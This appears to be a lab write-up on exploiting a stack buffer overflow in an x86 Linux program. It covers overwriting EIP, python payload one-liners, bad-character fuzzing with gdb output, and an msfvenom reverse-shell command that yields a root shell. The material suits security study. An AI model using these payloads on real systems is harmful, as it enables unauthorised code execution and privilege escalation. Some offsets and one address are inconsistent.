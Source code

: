 # Buffer overflow
 
 ## EIP
 
 EIP is an register in a x86 architecture (32bit). It stands for "Extended Instruction Pointer".
 EIP will tell our computer where to go next to execute code, in this exploit we will try to write malicious shellcode to the program and make the EIP point to the malicious shellcode.
 
 ## The exploit
 
 ![](bilder/3.png)
 
 We find the offset to where the EIP address starts. We want to overwrite the address to point to the malicious code.
 Example payload:
 ```$(python -c 'print "\x55" * (2060-100-150) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')```
 ```
   Buffer = "\x55" * (1040 - 100 - 150 - 4)
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4'
 ```
 What we want to do now is to find out what chars that are bad.
 ```
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
We'll add the CHARS to our payload to see what characters that are bad so we can craft a malicious shellcode.
All these charcters equals to 256 bytes, we need to calculate a new payload.
 ```$(python -c 'print "\x55" * (2060-256) + "<CHARS>" + "\x66" * 4')```
 We can then run ```x/2000xb $esp+500``` in gdb for this output:
 ```
 0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
 ```
 We can see the characters being written in these addresses, and we can see that 0x00, 0x09, 0x0a and 0x20 was disregarded. These are our bad characters, which we will use to craft our shellcode with.
 ```msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode```
 This creates a reverse shell for a local machine, the shellcode is 95 bytes so agian we need to recalculate and change the payload.
 ```
 run $(python -c 'print "\x55" * (2060-100-95)+ "\x90" * 100 + "<SHELLCODE>" + "\x66" * 4')
 ```
 
 ![](bilder/4.PNG)
 
 Our shellcode starts at ```0xffffd68e```, But we want EIP to point to a little behind that agian. So our new payload for overwritting EIP will be
"\x7e\xd6\xff\xff" for ```0xffffxd67e```.

Next we open two terminals.

### Terminal 1
![](bilder/1.PNG)

We listen for a connection from root.

### Terminal 2
![](bilder/code.PNG)

We send the payload which starts the reverse shell.

### Terminal 1
![](bilder/2.PNG)
